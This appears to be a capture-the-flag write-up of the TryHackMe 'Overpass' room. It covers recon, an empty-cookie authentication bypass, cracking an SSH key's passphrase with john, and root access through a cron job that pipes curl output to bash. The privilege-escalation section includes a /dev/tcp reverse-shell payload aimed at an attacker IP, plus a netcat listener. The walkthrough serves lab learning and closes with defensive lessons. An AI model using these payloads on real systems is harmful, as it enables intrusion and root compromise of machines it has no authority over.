







# TryHackMe - Overpass Room Writeup

**IP Address:** 10.49.168.98
**Platform:** TryHackMe  
**Room:** Overpass  
**Difficulty:** Easy  
**Date:** 2026-04-23  

---

## 1. Recon

### Nmap Initial Scan

```bash
nmap -sC -sV 10.49.168.98
```

### Open Ports

| Port | Service | Version    |
|------|---------|------------|
| 22   | SSH     | OpenSSH    |
| 80   | HTTP    | Web Server |

### Nmap Screenshot



---

## 2. Web Enumeration

### Gobuster Scan

```bash
gobuster dir -u http://10.49.168.98 -w /usr/share/wordlists/dirb/common.txt
```

### Findings

- /admin

### Gobuster Screenshot



---

## 3. Admin Panel Analysis

Navigated to `/admin` and inspected the page source, where I identified a JavaScript file named `login.js`.

### login.js Code

```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

### Observation

- Session handled via SessionToken cookie
- No proper validation


## 4. Authentication Bypass

Used browser console:

```javascript
Cookies.set("SessionToken","")
```

After refresh, gained access to admin panel.

### Bypass Screenshot



---

## 5. RSA Private Key Discovery

Found encrypted RSA private key inside admin panel.

### Screenshot



---

## 6. Cracking the Key

Convert key:

```bash
ssh2john id_rsa > hash.txt
```

Crack with john:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### Result

Password found successfully.

---

## 7. SSH Access

```bash
ssh -i id_rsa james@10.49.168.98
```
When asked for a password, we write the password we found.
Login successful.

### Screenshot



---

## 8. Post Exploitation

Found file:

```bash
todo.txt
```

### Content

```
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

### Screenshot



---

## 9. Privilege Escalation Exploitation

First, I checked the cron jobs configuration:

```bash
cat /etc/crontab
```

### Found:

```bash
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

This means the system is downloading and executing a script from a domain (`overpass.thm`) every minute as root.

---

### Exploitation Steps

To exploit this, I redirected the domain to my attacker machine by modifying the `/etc/hosts` file:

---

### Creating Malicious Payload

On my attacker machine, I created the required directory structure:

```bash
mkdir -p downloads/src
cd downloads/src
```

Then I created the malicious script:

```bash
nano buildscript.sh
```

Inside `buildscript.sh`, I added a reverse shell payload:

```bash
#!/bin/bash
bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1
```

Then I gave it execute permission:

```bash
chmod +x buildscript.sh
```

---

### Hosting the Payload

I started a simple HTTP server in the root directory:

```bash
python3 -m http.server 80
```

---

### Starting Listener

On my attacker machine, I started a netcat listener:

```bash
nc -lvnp 4444
```

---

### Result

When the cron job executed, the target machine downloaded my malicious script and executed it as root, resulting in a **reverse shell with root privileges**.


### Screenshot



---

## 10. Conclusion

### Vulnerabilities

- Weak session management
- Sensitive data exposure
- Weak encryption/password
- Insecure cron job

### Key Takeaways

- Do not trust client-side auth
- Secure keys properly
- Avoid running remote scripts as root
- Audit cron jobs regularly
